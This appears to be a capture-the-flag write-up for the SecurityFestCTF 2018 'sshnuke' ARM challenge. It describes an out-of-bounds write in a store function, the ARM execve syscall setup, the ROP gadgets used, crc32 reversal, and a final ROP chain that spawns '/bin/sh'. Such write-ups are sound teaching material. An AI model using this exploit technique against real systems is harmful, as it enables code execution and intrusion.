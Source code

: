 # sshnuke
This is ARM ROP task.

![](/images/SecurityFestCTF2018/sshnuke/01.png)

For comfortable debugging I was using Azeria-Lab-v1 VM from https://azeria-labs.com/arm-lab-vm/

Vulnerability is in store function - no check for max slot value, slots array size = 12 => overflow. 

slots[13] = bp (frame pointer, analogue of ebp) 
slots[14] = pc (program counter, analogue of eip)

Same vulnerability in read_store function => can leak, but ASLR was off, so leak was not needed.

On ARM syscall execve got following structure:

syscall execve("/bin/sh", argv, env) => execve("/bin/sh", 0, 0)

add r0, 0x099014   ; /bin/sh addr
mov r1, #0
mov r2, #0
mov r7, #11        ; number of execve() syscall 
svc #0             ; syscall


0x099014 - is address where login string is placed:

![](/images/SecurityFestCTF2018/sshnuke/02.png)


Using ROPgadget I found required gadgets to make syscall execve("/bin/sh", 0, 0). 

There was no "pop {r2, pc}" gadget, so I used:

pop {r0, r4, pc}
mov r2, r4 ; blx r3

"blx r3" instruction will brunch at an address specified by a register r3 (analogue of call).


Also there are calculated crc32 hash of user input string in _do_store function.

![](/images/SecurityFestCTF2018/sshnuke/03.png)

So we have to do reverse crc32. I used script from https://github.com/theonlypwner/crc32/blob/master/crc32.py


Final rop:

login('/bin/sh\x00')

store_data(14, crc32_reverse(pop_r1_pc), True, False)
store_data(15, crc32_reverse(0), True, True)
store_data(16, crc32_reverse(pop_r7_pc), True, True)
store_data(17, crc32_reverse(11), True, True)
store_data(18, crc32_reverse(pop_r3_pc), True, True)
store_data(19, crc32_reverse(svc_0), True, True)  
store_data(20, crc32_reverse(pop_r0_r4_pc), True, True)
store_data(21, crc32_reverse(login_str_addr), True, True)
store_data(22, crc32_reverse(0), True, True)
store_data(23, crc32_reverse(mov_r4_r2_blx_r3), False, True)

![](/images/SecurityFestCTF2018/sshnuke/04.png)
 


